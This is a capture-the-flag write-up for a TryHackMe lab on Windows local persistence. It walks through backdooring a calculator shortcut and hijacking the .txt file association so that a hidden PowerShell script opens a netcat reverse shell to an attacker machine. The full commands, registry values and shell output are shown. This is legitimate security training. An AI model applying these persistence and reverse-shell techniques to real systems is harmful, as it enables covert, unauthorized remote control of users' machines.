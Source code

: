 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/05/2023

# Shortcut Files
1. Started up this room's machine
2. Opened up the compromised Windows machine's calculator properties window

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20New%20Properties.png)

3. `PowerShell` from the compromised Windows machine to open up PowerShell, which we'll then use to create a PowerShell (.ps1) script containing a payload that we'll use to connect back to our netcat listener that we'll later set up on our Linux machine, in the compromised machine's **C:\Windows\System32** directory
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
3.1 `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`
3.2 `$scriptContent = @"`
3.3 `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`
3.4 `C:\Windows\System32\calc.exe`
3.5 `"@` 
3.6 `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.210.65 9999"
>> C:\Windows\System32\calc.exe
>> "@
>> Set-Content -Path $scriptPath -Value $scriptContent
>>
```
4. Change the calculator's target path to be 'powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT NAME>.ps1', which will stealthly execute our payload, and change back the calculator's icon back to its default icon to ensure that the user doesn't suspect a thing, since the icon will most likely change after changing it's target path

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20Properties%20Zoomed%20In.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20New%20Properties.png)

5. `nc -lvnp <PORT NUMBER>`  from our Linux attack machine to set up our netcat listener that'll listen for any inbound connections
```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
6. Click on the calculator on the compromised Windows machine, which ended up stealthly executing our payload allowing us to create a reverse shell that connected back to our netcat listener on our attack machine

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Backdoor%20Script%20Executed%20.png)

```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.105.224 49982 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
7. `C:\flags\flag5.exe` from our reverse shell to run the **flag5.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag5.exe
C:\flags\flag5.exe
THM{NO_SHORTCUTS_IN_LIFE}
```


**TASK COMPLETED**

# Hijacking File Associations
1. Started this room's machine
2. `regedit` from the compromised Windows machine to open up the Registry Editor (**Regedit**), which we'll then go and later modify the data in the **Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command** registry, since this is what'll get executed whenever we open a **.txt** file on the compromised WIndows machine
```PowerShell
C:\Users\Administrator>regedit
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20Zoomed%20In.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20pt%202.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20pt%202%20Zoomed%20In.png)

3. `PowerShell` from the compromised Windows machine to open up PowerShell, which we'll then use to create a PowerShell (.ps1) script containing a payload that we'll use to connect back to our netcat listener that we'll later set up on our Linux machine, in the compromised machine's **C:\Windows\System32** directory
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
3.1 `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`
3.2 `$scriptContent = @"`
3.3 `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`
3.4 `C:\Windows\system32\NOTEPAD.EXE $args[0]`
3.5 `"@` 
3.6 `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.173.81 9999"
>> C:\Windows\system32\NOTEPAD.EXE $args[0]
>> "@
>> Set-Content -Path $scriptPath -Value $scriptContent
PS C:\Users\Administrator>
```
4. We'll go back into the Registry Editor that opened up already and we'll change the **textfile**'s current value data to be `powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT FILE>.ps1 %1`, which will allow our backdoor script to be executed everytime a user open a text file on the compromised machine 

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Default%20Value%20Data.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/New%20Value%20Data.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/New%20Value%20Data%20pt2.png)

5. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to set up our netcat listener that'll listen for any inbound connections
```Bash
root@ip-10-10-173-81:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```

6. Once our netcat listener, from the compromised Windows machine, we'll open any text file to execute our created payload, which ended up doing so and connecting back to our netcat listener on our attack machine 

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/txt%20File%20Opened.png)

```Bash
root@ip-10-10-173-81:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.141.70 49905 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>
```
7. `C:\flags\flag6.exe` from our reverse shell to run the **flag6.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Users\Administrator\Desktop>C:\flags\flag6.exe
C:\flags\flag6.exe
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}
```


**TASK COMPLETED**
